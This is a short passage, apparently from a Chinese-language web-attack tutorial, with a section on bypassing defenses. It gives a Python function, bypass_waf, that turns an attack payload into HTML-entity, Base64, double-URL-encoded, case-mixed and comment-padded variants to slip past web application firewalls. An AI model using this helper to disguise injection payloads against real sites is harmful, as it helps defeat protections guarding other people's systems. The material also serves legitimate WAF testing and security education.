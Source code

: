 ### 4. 绕过防御
```python
def bypass_waf(payload):
    # 1. HTML编码
    encoded = ''.join(f'&#{ord(c)};' for c in payload)
    
    # 2. Base64编码
    import base64
    base64_encoded = base64.b64encode(payload.encode()).decode()
    
    # 3. 双重URL编码
    from urllib.parse import quote
    double_encoded = quote(quote(payload))
    
    # 4. 大小写混淆
    mixed_case = ''.join(c.upper() if i%2 else c.lower() for i,c in enumerate(payload))
    
    # 5. 使用注释
    with_comments = payload.replace(' ', '/**/') 
    
    return [encoded, base64_encoded, double_encoded, mixed_case, with_comments]
```